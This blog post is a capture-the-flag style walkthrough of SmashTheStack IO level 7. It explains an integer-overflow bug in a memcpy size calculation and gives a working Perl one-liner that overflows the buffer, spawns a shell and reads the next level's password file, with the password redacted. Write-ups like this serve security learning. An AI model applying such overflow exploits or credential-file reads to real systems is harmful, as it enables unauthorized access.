 ```yaml
---
categories:
- SmashTheStack-IO
- Security
comments: true
date: 2013-08-15T00:00:00Z
title: Levels 7 and 7_alt - IO at STS
---
```


I've been documenting my experiences with [IO][] at [SmashTheStack][] for a while, but decided not to post them publicly for a few reasons. However level 7 (in particular the `alt` level) was the first that I thought worthy of posting. This post includes how I broke both applications to make it through to the level 8. If you haven't had a play on the [SmashTheStack][] wargames yet, I really do recommend it. They're great fun.

<!--more-->

Spoiler Alert
-------------

This post covers, in detail, how to get past level 7 and level 7 alt. If you haven't done these levels yourself yet, and you plan to, then please don't read this until you've nailed them yourself. I'd hate for this to ruin your experience.

However, if you've done the level or you're just interested in what's involved, please read on.

Connecting
----------

Fire up a shell and connect to the game server with the password for the `level7` user (I won't be sharing passwords here).

```
$ ssh level7@io.smashthestack.org
```

Let's see what challenges there are for us:

```
level7@io:~$ ls /levels/level07*
/levels/level07  /levels/level07_alt  /levels/level07_alt.c  /levels/level07.c
```

This level has two possible entry points, and we'll be covering both in this post.

Level 07
--------

We start by looking at the source of the target program:

```
//written by bla
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
        int count = atoi(argv[1]);
        int buf[10];

        if(count >= 10 ) 
                return 1;

        memcpy(buf, argv[2], count * sizeof(int));

        if(count == 0x574f4c46) {
                printf("WIN!\n");
                execl("/bin/sh", "sh" ,NULL);
        } else
                printf("Not today son\n");

        return 0;
}
```

What's clear here is that we need to pass a number in that is less than `10`, but is big enough to allow us to overflow `buf` so that we can modify the value of `count`. The data that's written to `buf` is only allowed to be `count * sizeof(int)` in size.  We can easily pass in numbers smaller than 10, but they won't be big enough to overflow `buf`. If we pass in a _negative_ number we bypass the check, but the call to `memcpy` will fail because `count * sizeof(int)` is negative.

We need to find a way of turning this calculation into something positive, but also much bigger than `10 * sizeof(int)` so that we can overflow `buf`.

What's interesting about this is that `sizeof(int)` on a 32-bit machine is `4`, which is effectively a `SHL 2` operation. We can confirm this by disassembling `main` and looking at the generated output:

```
gdb$ disas main
Dump of assembler code for function main:
0x08048414 <main+0>:    push   ebp
0x08048415 <main+1>:    mov    ebp,esp
0x08048417 <main+3>:    sub    esp,0x68
0x0804841a <main+6>:    and    esp,0xfffffff0
0x0804841d <main+9>:    mov    eax,0x0
0x08048422 <main+14>:   sub    esp,eax
0x08048424 <main+16>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048427 <main+19>:   add    eax,0x4
0x0804842a <main+22>:   mov    eax,DWORD PTR [eax]
0x0804842c <main+24>:   mov    DWORD PTR [esp],eax
0x0804842f <main+27>:   call   0x8048354 <atoi@plt>
0x08048434 <main+32>:   mov    DWORD PTR [ebp-0xc],eax
0x08048437 <main+35>:   cmp    DWORD PTR [ebp-0xc],0x9
0x0804843b <main+39>:   jle    0x8048446 <main+50>
0x0804843d <main+41>:   mov    DWORD PTR [ebp-0x4c],0x1
0x08048444 <main+48>:   jmp    0x80484ad <main+153>
0x08048446 <main+50>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048449 <main+53>:   shl    eax,0x2                          <- here
0x0804844c <main+56>:   mov    DWORD PTR [esp+0x8],eax
0x08048450 <main+60>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048453 <main+63>:   add    eax,0x8
0x08048456 <main+66>:   mov    eax,DWORD PTR [eax]
0x08048458 <main+68>:   mov    DWORD PTR [esp+0x4],eax
0x0804845c <main+72>:   lea    eax,[ebp-0x48]
0x0804845f <main+75>:   mov    DWORD PTR [esp],eax
0x08048462 <main+78>:   call   0x8048334 <memcpy@plt>
0x08048467 <main+83>:   cmp    DWORD PTR [ebp-0xc],0x574f4c46
0x0804846e <main+90>:   jne    0x804849a <main+134>
0x08048470 <main+92>:   mov    DWORD PTR [esp],0x8048584
0x08048477 <main+99>:   call   0x8048344 <printf@plt>
0x0804847c <main+104>:  mov    DWORD PTR [esp+0x8],0x0
0x08048484 <main+112>:  mov    DWORD PTR [esp+0x4],0x804858a
0x0804848c <main+120>:  mov    DWORD PTR [esp],0x804858d
0x08048493 <main+127>:  call   0x8048324 <execl@plt>
0x08048498 <main+132>:  jmp    0x80484a6 <main+146>
0x0804849a <main+134>:  mov    DWORD PTR [esp],0x8048595
0x080484a1 <main+141>:  call   0x8048344 <printf@plt>
0x080484a6 <main+146>:  mov    DWORD PTR [ebp-0x4c],0x0
0x080484ad <main+153>:  mov    eax,DWORD PTR [ebp-0x4c]
0x080484b0 <main+156>:  leave  
0x080484b1 <main+157>:  ret    
End of assembler dump.
```

Some investigation of the behaviour of this instruction lead me to realise that there was room for abuse when values over/underflow. If we use `SHL` with numbers of a small enough negative value, those values become positive. Let's have a look at that in action by whipping up a sample program and viewing the output:

```
int main(int argc, char **argv)
{
    int x = -2147483647;
    printf("%p\n", x);
    printf("%p\n", x << 2);
    printf("%p\n", (x + 16) << 2);
    printf("%p\n", (x + 32) << 2);
    return 0;
}
```

Compile this code with `gcc` and run it, and you'll find the following:

```
level7@io:/tmp/tc7$ ./a.out
0x80000001
0x4
0x44
0x84
```

So we can pass in a negative integer, have it shift and turn it into a positive that's big enough to overflow the buffer. Once we've overflowed, all we need to do is write the value `0x574f4c46` to the desired memory location and the level will pass. We can get smart and figure out exactly where this needs to be, or we can go with the approach of repeatedly writing it knowing that somewhere along the line it'll end up being written to where we need it to be: in the `count` varaible. I chose to do the latter. We pass this data in as the second argument on the command line. Let's see how this looks:

```
level7@io:$ /levels/level07 -2147483600 `perl -e 'print "\x46\x4c\x4f\x57" x 100'`
WIN!
sh-4.1$ cat /home/level8/.pass
<< -- password was printed here -- >>
```

This level was relatively simple, but was good exposure to the idea of how integer underflows can cause problems.

Level 07 alt
------------

Out of respect for the author of the challenge, and the effort that went into to creating it, I have removed my walkthrough for Level 07 alt.

This challenge took me a _very long time_ to complete. It took research, patience, creativity and lots of sweat. I highly recommend attempting to nail this by yourselves. I'd like to shout out to Lars Haulin, the creator, for his amazing job in creating this little masterpiece.

Feedback is appreciated as always. Thanks for reading.

  [IO]: http://io.smashthestack.org:84/ "IO @ Smash The Stack"
  [SmashTheStack]: http://smashthestack.org/ "Smash The Stack"
  [.ctors]: http://gcc.gnu.org/onlinedocs/gccint/Initialization.html
  [.dtors]: http://gcc.gnu.org/onlinedocs/gccint/Initialization.html
  [GOT]: http://bottomupcs.sourceforge.net/csbu/x3824.htm "Global Offset Tables"

